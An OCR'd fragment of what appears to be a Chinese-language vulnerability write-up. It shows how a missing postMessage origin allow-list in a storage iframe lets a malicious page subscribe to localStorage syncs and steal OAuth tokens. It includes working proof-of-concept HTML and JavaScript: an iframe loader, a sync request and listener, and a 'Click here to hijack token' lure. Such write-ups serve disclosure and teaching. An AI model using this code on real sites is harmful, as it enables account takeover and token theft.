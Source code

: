 ```JavaScript

function handleMessage(e) {
  if (data.type === 'sync') {
    syncListeners.push({source: e.source, origin: e.origin})
  } else {
  ...
}

window.addEventListener('storage', function(e) {
  for(var i = 0; i < syncListeners.length; i++) {
    syncListeners[i].source.postMessage(JSON.stringify({type: 'sync', key: e.key, value: e.newValue}), syncListeners[i].origin);
  }
}

```



此外，如果有一个基于allowList的有效源，你还可以请求同步，这将在此窗口中向您发送对localStorage所做的任何更改。


拥有存储的网站在加载OAuth-dance的不愉快路径时，并没有定义allowList-origins;这允许任何源与postMessage-listener通信，如果源是窗口的父源。方法与Gadget2类似 :


我创建了一个恶意页面，它嵌入了存储容器的iframe，并附加了一个onload，以便在加载iframe时触发脚本。



代码如下:
```html
<div id="leak"><iframe
id="i" name="i"
src="https://cdn.customer12345.analytics.example.com/storage.html"
onload="run()"></iframe></div>
```
由于恶意页面现在是iframe的父页面，并且在allowList中没有定义任何起源，因此恶意页面可以向iframe发送消息，告诉存储发送对存储的任何更新的消息。我还可以添加一个监听器到恶意页面，以监听任何来自存储的同步更新:


```JavaSCript
<script>
function run() {
  i.postMessage({type:'sync'}, '*')
}
window.addEventListener('message', function (e) {
 if (e.data && e.data.type === 'sync') {
     document.getElementById('leak').innerText = 'We stole the token: ' + JSON.stringify(e.data);
 }
});
</script>
```
该恶意网页还会包含一个普通链接，供受害者点击:

```html
<a href=" "
target="_blank">Click here to hijack token</a >';

```


[2]: https://openid.net/specs/oauth-v2-multiple-response-types-1_0-09.html#Encoding